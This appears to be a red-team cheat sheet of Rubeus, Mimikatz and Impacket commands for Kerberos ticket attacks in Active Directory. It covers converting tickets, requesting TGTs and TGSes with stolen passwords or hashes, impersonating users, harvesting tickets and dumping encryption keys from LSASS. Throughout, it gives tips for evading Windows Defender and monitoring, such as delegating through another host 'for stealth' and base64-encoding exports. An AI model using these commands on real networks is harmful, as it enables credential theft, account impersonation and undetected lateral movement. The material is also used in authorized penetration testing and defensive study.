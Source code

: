 ### Ticket Conversion
- converting tickets between impacket and mimikatz/rubeus format
```
kirbi2ccache <KIRBI_FILE> <CCACHE_FILE>
```
```
ccache2kirbi <CCACHE_FILE> <KIRBI_FILE>
```
```
impacket-ticketConverter <CCACHE/KIRBI_FILE> <KIRBI/CCACHE_FILE>
KIRBI -> MIMIKATZ
CCACHE -> IMPACKET
```
### Request New initial TGT
- Requires user's password or hash
- Rubeus
```
rubeus asktgt /domain: /user: /password: /enctype:<RC4|AES128|AES256|3DES>
```
```
#Use aes256 default for enctype
#If you don't have a password but have a hash, replace /password: with /rc4: /aes128: /aes256: or /des:
```
- Mimikatz
```
tgt::ask /domain: /user: /password:
```
- Impacket (remote)
```
impacket-getTGT <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -hashes <HASH> export KRB5CCNAME=<TICKET>.ccache
```
### Request Delegated TGT
- Can't change passwords with delegated TGTs but can request TGSes
- domain controllers by default can provide delegated TGTs
- Normal for some processes like explorer but weird for others likenotepad
- for processes where it's weird you don't want to get flagged by windows defender so be sure to use the /host during impacket scripts without knowing the password and convert the ticket to ccache
- Rubeus
```
rubeus tgtdeleg
```
```
/target:<SPN>
```
- Mimikatz
```
#Contacts domain controller by default
tgt::deleg
```
```
#Have another host delegate for you for stealth
/host:<FQDN>
#Find with Get-AdComputer -ldapfilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
```
### Request TGS
- Rubeus
```
rubeus asktgs /service:<SPN>/<FQDN>
```
```
#To impersonate another user (same as request TGT):
/enctype:
/user: <USERNAME>
/password: <PASSWORD>
#If you don't have a password but have a hash replace /password: withg /rc4: /aes128: /aes256: /des:
```
- Mimikatz
```
kerberos::ask /target:<SPN>/<FQDN>
optional /export to export
```
- Impacket (remote)
```
impacket-getST <DOMAIN>/<USER>:<PASSWORD> -spn <SERVICE>/<HOST>
-dc-ip <DC_IP>
-hashes <HASH>
-impersonate <USER>
Note: Automatically modifies impersonate TGS so it can be used with other impacket tools
```
### Modify Existing TGS for Another Service
- Rubeus
```
rubeus asktgs /altservice:<SPN> /ticket:<TICKET>
/ptt will automatically load onto current logon session
```
### Harvesting Tickets
#### Rubeus
- List current session TGT
```
rubeus harvest /interval:30
```
- List current session all tickets with logon id and expiration time
```
rubeus triage
```
- List current session tickets with detailed info
```
rubeus dump
/user:<USER> for a specific user
/service:<SERVICE> for a specific service
/luid:<LOGON_ID> for specific session if we have access to all sesssions (admin)
/nowrap for easier copy and paste
```
#### Mimikatz
- List current session TGT
```
kerberos::tgt
```
- List current session all tickets
```
kerberos::list
```
- List all tickets for all sessions but injects into LSASS memory so don't do it if there's a monitoring service
```
sekurlsa::tickets
```
```
Add /export to any of these to export but first base64 /out:true and base64 /in:true to export base64 encoded (less likely to be detected)
```
### Harvest Keys
#### Mimikatz
```
sekurlsa::ekeys
```
#### Purge Tickets
- Rubeus
```
rubeus purge
```
- Mimikatz
```
kerberos::purge
```
